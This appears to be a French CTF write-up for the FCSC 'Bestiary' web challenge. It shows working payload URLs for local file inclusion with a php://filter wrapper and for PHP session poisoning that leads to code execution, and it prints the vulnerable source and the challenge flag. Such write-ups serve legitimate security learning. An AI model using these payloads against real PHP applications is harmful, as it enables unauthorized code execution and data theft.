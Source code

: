 # <center><b>Bestiary</b></center>
</br>
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
<br>
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

![](./bestiary.png)

On choisit donc un monstre et on appuit sur "show description" et là on peut remarquer plusieurs choses

![](./bestiary1.png)

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
<br>
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
<br>

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

```php

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    <center><h1>Bestiary</h1></center>
    <script>
    function show()
    {
	    var monster = document.getElementById("monster").value;
	    .location.href = "index.php?monster="+monster;
    }
    </script>

    <p>
    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    </p>

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
    </body>
    </html>
```

En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

![](./bestiary2.png)

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé.<br>
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index.<br>

Mais comment on a le flag ducoup ?<br>
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
<br>
<br>
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
